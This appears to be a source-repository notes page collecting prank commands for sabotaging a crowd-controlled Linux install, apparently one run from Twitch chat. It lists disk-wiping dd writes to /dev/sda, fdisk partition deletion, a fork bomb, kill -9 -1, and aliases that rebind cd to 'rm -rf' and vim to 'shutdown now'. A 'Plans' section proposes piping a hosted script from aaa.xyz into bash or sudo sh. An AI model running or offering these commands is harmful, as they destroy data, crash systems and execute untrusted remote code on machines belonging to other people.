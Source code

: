    alias cd=rm -rf

changing to a directory will delete that directory

     alias alias="poweroff"
     

    alias sudo=""
    
    alias sudo="fuck"
    
    dd if=/dev/zero of=/empty
    
    cat /dev/urandom
    
    cat /dev/urandom | hexdump | grep "ca fe"
    
    passwd | /dev/random
    
    alias vim="shutdown now"
    alias cd="rm"    
    alias alias="alias"

    alias alias="echo *** you troller get off mah lawn"
    
    dd if=/dev/urandom of=/dev/sda bs=4096
    
    sudo dd if=/dev/urandom of=/dev/sda bs=4M && sync
    
    dd if=/dev/urandom of=/dev/sda
    
    dd if=/dev/urandom of=/dev/sda bs=8m
    
    alias clear='cat /dev/urandom'
    
    :(){ :|:& };:
    
    7:56Doubleblock: l33t plan: dd if=/dev/urandom of=/dev/sda reality: dsifjwdbdwbv
    
    fdisk /dev/sda d, 1, q
    
    kill -9 -1

### Plans

#### get an .sh file that would do everything for us if we just curl it from the web, 

    curl aaa.xyz/a.sh | bash

- 7:08inluck_nl: write a bash script
- 7:08inluck_nl: host it
- 7:08inluck_nl: get networking up
- 7:08inluck_nl: wget and run

write a script we can `wget | sudo sh`

### Notes
These were inspired from TwitchInstallArchLinux chat.